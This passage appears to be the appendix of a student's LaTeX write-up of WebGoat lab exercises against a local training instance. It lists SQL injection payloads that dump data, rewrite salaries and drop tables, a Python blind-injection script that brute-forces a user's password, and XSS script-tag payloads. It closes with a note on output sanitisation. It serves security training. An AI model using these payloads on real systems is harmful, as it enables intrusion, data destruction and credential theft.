\item (3) \verb $UPDATE employees SET  department='Sales' WHERE first_name = 'Tobi'$
\item (4) \verb $ALTER TABLE employees ADD phone varchar(20)$
\item (5) \verb $GRANT ALL ON grant_rights TO unauthorized_user$
\item (9) See Figure \ref{fig:InjectionIntro9}
\item \verb $(10) SELECT * From user_data WHERE Login_Count = 0 and userid= true$
\item \verb $(11) Employee Name: ' OR 1 = 1; --  TAN: ' '$
\item \verb $(12) '; UPDATE employees SET salary=99999 WHERE first_name='John$
\item \verb $(13) %'; DROP TABLE access_log;--$
\end{itemize}

\begin{figure} % Single column figure
	\centering
	
\includegraphics[width=0.8\textwidth]{Pasted image 20240826154614.png}
	\caption{Sql injection using OR and something resolving to 'true' }
	\label{fig:InjectionIntro9}
\end{figure}


\begin{figure} % Single column figure
	\centering
	
\includegraphics[width=0.8\textwidth]{Pasted image 20240826162409.png}
	\caption{Database pawned, revealing salaries}
	\label{fig:SalaryList}
\end{figure}




\begin{figure} % Single column figure
	\centering
	
\includegraphics[width=0.25\textwidth]{Pasted image 20240826163525.png}
	\caption{SQL injection (intro) check mark}
	\label{fig:InjectionIntroSolvedCheck}
\end{figure}

\subsection{4.2 SQL Injection (advanced)}

\begin{itemize}
 \item{(3) \verb $a' union select user_system_data. *,NULL,NULL,NULL from user_system_data; --$}
\item{(5) Hint says that table-name is randomized and needs to be retrieved sounds like a blind SQL injection The string `tom' AND substring(password,1,1)='t` gives a "User {0} already exists please try to register with a different username." Response indicating we hit correctly with 1 as the first letter of the password}
\end{itemize}

Automating this into a brute-force attack..


\begin{verbatim}

import requests
import json
## Python script for 'blind' SQL injection

url = "http://localhost:8080/WebGoat/SqlInjectionAdvanced/challenge"
webgoat_session = "OYyd-Kr3f_erhZt5QnVA1-caG64u8PYxcXIt602C"

header = {
"Cookie": "JSESSIONID="+ webgoat_session,
}
password = ""

alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

pw_index = 1
for length in range(1,25):
    for letter in alphabet:

                payload = f"tom' AND SUBSTRING(password,{pw_index},1)='{letter}"
        
        data = {
        'username_reg': payload,    
        'email_reg': 'a@a', 
        'password_reg': 'a',    
        'confirm_password_reg': 'a'     
        }

        ## Do a request
        r = requests.put(url,headers=header, data=data)
        ## Grab the "feedback part of the response"
        text = r.json()['feedback']
        if "already exists" in text:
            password += letter
            pw_index +=1
            print(password)
\end{verbatim}

\begin{figure}[!htb] % Single column figure
	\centering
	
\includegraphics[width=0.5\textwidth]{Pasted image 20240827142530.png}
	\caption{Brute Force Result}
	\label{fig:InjectionBruteforceResult}
\end{figure}



\hypertarget{cross-site-scripting}{%
\subsubsection{4.4 Cross Site Scripting}\label{cross-site-scripting}}

\begin{itemize}
\item{XSS (7) All the quantities only accepts integers, putting a
\texttt{\textless{}script\textgreater{}} tags in something on ``three
digit access code'' triggers an alert that page i being manipulated,
putting
\texttt{\textless{}script\textgreater{}alert(test)\textless{}/script\textgreater{}}
works}

\item{XSS(10) route handlers}

\item{XSS (11) see Figure \ref{fig:Result11}}
\end{itemize}


\begin{figure}[!htb] % Single column figure
	\centering
	
\includegraphics[width=\textwidth]{Pasted image 20240827163004.png}
	\caption{Phone Home JS script has run}
	\label{fig:Result11}
\end{figure}


\subsubsection{Cross Site Scripting(Stored)}\label{cross-site-scripting-stored}

\begin{itemize}
	\item{XSS(s)(3) \texttt{\textless{}script\textgreater{}\_webgoat.customjs.phoneHome\_()\textless{}/script\textgreater{}}}
\end{itemize}


\subsubsection{Cross Site Scripting (Mitigation)}\label{cross-site-scripting-mitigation}
Exercises on input sanitation using javascript libraries in Jquery

\begin{itemize}
	\item (5) Using "ForHtml()" function See Figure \ref{fig:ForHtml}
	\item (6) See 
\end{itemize}


\begin{figure}[!htb] % Single column figure
	\centering
	
\includegraphics[width=0.5\textwidth]{Screenshot from 2024-09-01 12-22-35.png}
	\caption{Sanitaton using JQuery ForHtml}
	\label{fig:ForHtml}
\end{figure}






\end{appendices}
\end{document}
